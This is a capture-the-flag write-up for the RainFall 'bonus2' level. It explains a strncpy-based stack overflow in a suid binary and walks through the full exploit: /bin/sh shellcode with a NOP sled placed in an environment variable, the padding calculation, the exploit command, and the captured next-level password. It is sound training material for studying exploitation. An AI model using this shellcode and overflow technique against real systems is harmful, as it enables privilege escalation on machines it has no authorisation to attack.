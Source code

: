# Bonus2

## Solution

* There is one file in our home, ```bonus2```, belonging to ```bonus3``` user, with suid.
* Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

* For the sake of clarity, we won't display the very long disassembled code, but we will describe its behaviour:

	* ```main``` function returns ```1``` if there are not exactly two parameters passed to the program
	* it allocates on its stack a buffer a ```0x4c``` bytes buffer
	* the content of ```argv[1]``` is copied using ```strncpy``` with a limit of ```0x28 = 40``` bytes
	* the content of ```argv[2]``` is copied using ```strncpy``` at the offset ```0x28 = 40``` bytes, with a limit of ```0x20 = 32``` bytes
	* ```getenv``` gets the value of environment variable ```LANG``` :
		* if the string starts with ```fi```: global variable ```language``` is set to 1
		* if it starts with ```nl```: global variable ```language``` is set to 2
		* else, it keeps ```0``` value
	* ```greetuser``` function is then called
	* ```greetuser``` allocates on its stack a ```0x40 = 64``` bytes buffer
	* depending on the value of ```language```, it fills the buffer with:
		*  ```Hyvää päivää ``` if ```language``` is equal to ```1```
		* ```Goedemiddag! ``` if ```language``` is equal to ```2```
		* ```Hello ``` if ```language``` is equal to ```0```
	* it then concatenates this buffer with the buffer allocated in ```main``` stackframe

* What we did with all of that:

	* our goal wa to use the buffer allocated in ```greetuser``` to write an address of a shellcode in place of the former ```eip``` address
	* the offset between the beginning of the buffer and the location of former ```eip``` address is ```0x4c = 76``` bytes : it means that we wanted to write the address of our shellcode ```76``` bytes after the beginning of the buf
	* as ```argv[1]``` is copied in the ```main``` buffer using ```strncpy```, if there is no ```\0``` in the first ```40``` bytes, the copy won't be terminated
	* we used it to concatenate ```argv[1]``` with ```argv[2]```, allowing us to store a string up to ```40 + 32 = 72``` bytes
	* before launching the program we made two modifications in the environment :
		* ```export LANG=fi``` so that the string used to greet user would be ```Hyvää päivää ``` (```18``` bytes as ```ä``` is ```2``` bytes)
		* ```export SHELLCODE=`python -c "print('\x90' * 1024 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80')"` ``` to store the shellcode the environment
	* we then used the same program used in ```bonus0``` to get an approximative address of ```SHELLCODE```:
	```
	bonus2@RainFall:~$ /var/crash/env SHELLCODE
	SHELLCODE: 0xbffff4d0
	```
	* we could now exploit the vulnerability of ```bonus2``` file:
	```
	bonus2@RainFall:~$ ./bonus2 `python -c "print('A' * 40)"` `python -c "print('B' * 18 + 'd0f4ffbf'.decode('hex'))"`
	Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB����
	$ cd ../bonus3; cat .pass
	71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
	```
	* we used a total of ```58``` padding chars as ```18 (bytes of the finnish greeting) + 58 = 76``` (offset between beginning of the buffer and former ```eip``` address location)
